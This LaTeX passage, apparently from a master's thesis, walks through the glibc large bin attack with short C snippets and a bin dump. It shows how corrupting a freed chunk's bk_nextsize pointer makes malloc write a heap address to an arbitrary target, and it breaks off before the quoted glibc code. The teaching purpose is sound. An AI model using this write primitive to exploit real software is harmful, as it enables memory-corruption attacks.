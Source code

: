 \documentclass{masterthesis}
\newcommand*\libc{glibc}
\newcommand*\ub{unsorted bins}
\newcommand*\lb{large bins}
\newcommand*\freec{\lstinline{free}\xspace}
\begin{document}
\begin{lstlisting}[language=c,frame=tlrb]
size_t target = 0;
size_t *p1 = malloc(0x428);
size_t *g1 = malloc(0x18);
size_t *p2 = malloc(0x418);
size_t *g2 = malloc(0x18);
\end{lstlisting}

The first step is to define the target; also, we need to define two chunks in the range size of \lb{}; moreover, we need to define two chunks in the middle to prevent them from merging with each other or with the top chunk.

\begin{lstlisting}[language=c,frame=tlrb]
free(p1);
size_t *g3 = malloc(0x438);
\end{lstlisting}

In the second step, we free the biggest chunk; however, the freed chunk is not in the \lb{} yet. As we discussed, \freec{} adds the freed chunk to \ub{} at first; so, the best way to move it into the \lb{} is to allocate a new bigger chunk. In this way, the heap manager checks the chunk inside the \ub{}, then adds them into the corresponding bins (like other attacks).

\begin{lstlisting}[language=c,frame=tlrb]
free(p2);
\end{lstlisting}

In the third step, we free the smaller chunk. Now we have one chunk inside the \lb{} and one chunk in the \ub{}.

\begin{lstlisting}[frame=tlrb]
unsorted_bins[0]: fw=0x5555555596e0, bk=0x5555555596e0
Chunk(addr=0x5555555596f0, size=0x420, flags=PREV_INUSE)

large_bins[63]: fw=0x555555559290, bk=0x555555559290
Chunk(addr=0x5555555592a0, size=0x430, flags=PREV_INUSE)
 \end{lstlisting}

 The next step is to put the target address - 0x20 in the \lstinline{p1->bk_nextsize}. As we mentioned before, just \lb{} chunks use this pointer; they point to the next biggest chunk in the link list.

\begin{lstlisting}[language=c,frame=tlrb]
p1[3] = (size_t)((&target)-4);
size_t *g4 = malloc(0x438);
\end{lstlisting}

The last step is to allocate a bigger chunk, so, \lstinline{p2} moves to a larger chunk. When \lstinline{p2} move to large chunk, the heap manager write the address of \lstinline{p2} inside \lstinline{p1->bk_nextsize->fd_nextsize} as the code of \libc{} show \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3843}{\texttt{malloc.c}, line 3843}}:
\end{document}
